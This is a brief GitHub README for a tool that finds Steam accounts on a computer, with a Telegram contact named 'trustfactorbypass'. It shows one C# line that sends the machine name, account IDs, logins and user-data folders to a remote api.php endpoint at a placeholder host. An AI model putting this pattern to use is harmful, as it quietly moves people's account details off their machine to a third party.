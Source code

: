 # steamacc-finder
A simple client for finding a list of Steam accounts

# Important:

This release does not contain a native web server that is being used in this line:

```string url = $"http://example.com/api.php?computername={computerName}&perm_account_id={permAccountIdsString}&acc_login={accountLoginsString}&acc_ids={userDataFoldersString}&license_key={unique_key}";```

If you want get it, feel free to dm me: https://t.me/trustfactorbypass

# License:

This code uses GNU Affero General Public License v3.0 \n
Learn more: https://github.com/handwerk2016/steamacc-finder/blob/main/LICENSE
